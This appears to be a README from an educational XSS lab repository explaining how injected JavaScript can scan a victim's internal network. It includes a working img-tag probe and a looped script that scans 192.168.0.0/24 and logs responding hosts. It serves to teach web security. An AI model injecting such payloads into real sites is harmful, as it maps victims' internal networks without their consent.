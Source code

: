 # Using XSS for IP and Port Scanning

- Cross-site scripting can be used for all sorts of mischief, one being the ability to scan a victims internal network and look for open ports. 

- If an attacker is interested in what other devices are connected on the network, they can use ***Javascript*** to make requests to a range of **IP addresses** and determine which one responds.


# Task:

**1. Understand the basic proof of concept script.**

**2. Then create a file on your computer with the script, modify it to suit your network and run it. See if it picks up any of your devices that has a webserver running.**

### On the XSS Playground, go to the IP/Port scanning tab and review a script to scan the internal network.

- On the **application layer** your browser has no notion of **internal and external IP** addresses. So any website is able to tell your browser to request a resource from your internal network.

- For example, a website could try to find if your router has a web interface at **<ins>192.168.0.1</ins>** by:

  ```
  <img src="http://192.168.0.1/favicon.ico" onload="alert('Found')" onerror="alert('Not found')">
  ```

- Please keep in mind this is a [proof of concept](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/08%20-%20XSS%20for%20IP%20and%20Port%20Scanning/Used%20Scripts/1.%20POC_Used.js) and there are many factors that will effect results such as response times, firewall rules, cross origin policies and more. 
- Our browsers can conduct a basic network scan and infer about existing IP's, hostnames and services. As this is a learning exercise assume the factors do not apply here.

- **The following script will scan an internal network in the range 192.168.0.0 to 192.168.0.255**

  ```
  <script>
  for (let i = 0; i < 256; i++) 
  { 
    let ip = '192.168.0.' + i        
    let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
    document.body.innerHTML += code 
  }
  </script> 
  ```
- [Scanner script with explanation](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/08%20-%20XSS%20for%20IP%20and%20Port%20Scanning/Used%20Scripts/2.%20Scanner_Used.js)

- After you've found an **valid IP** you can then use the same method above and include a port number.
- However, the method described here only works with web servers (as its looking for the favicon image). 

- A more detailed port scanner can be found [here](https://github.com/aabeling/portscan). 
- As previously stated, this page is a proof of concept, you can create scripts which have much more capability.

# Used Payloads/Scripts

- If you have missed, click **[here](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/08%20-%20XSS%20for%20IP%20and%20Port%20Scanning/Used%20Scripts)** to see which payloads are used in the above tasks.
